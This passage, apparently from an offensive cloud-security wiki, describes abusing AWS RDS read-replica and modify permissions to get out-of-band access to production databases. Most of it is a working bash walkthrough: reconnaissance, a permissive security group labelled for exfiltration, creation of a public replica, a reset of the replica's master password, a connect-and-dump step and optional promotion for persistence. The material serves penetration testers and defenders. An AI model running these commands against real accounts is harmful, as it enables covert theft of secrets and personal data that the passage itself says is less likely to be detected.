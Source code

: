Impact: Post-exploitation data access by capturing all application SQL statements via AWS APIs (no DB creds), potentially leaking secrets, JWTs, and PII.

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

Abuse RDS read replicas to gain out-of-band read access without touching the primary instance credentials. An attacker can create a read replica from a production instance, reset the replica's master password (this does not change the primary), and optionally expose the replica publicly to exfiltrate data.

Permissions needed (minimum):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

Impact: Read-only access to production data via a replica with attacker-controlled credentials; lower detection likelihood as the primary remains untouched and replication continues.

```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
  --query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
  --output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
  --db-instance-identifier <REPL_ID> \
  --source-db-instance-identifier <SOURCE_DB> \
  --db-instance-class db.t3.medium \
  --publicly-accessible \
  --vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
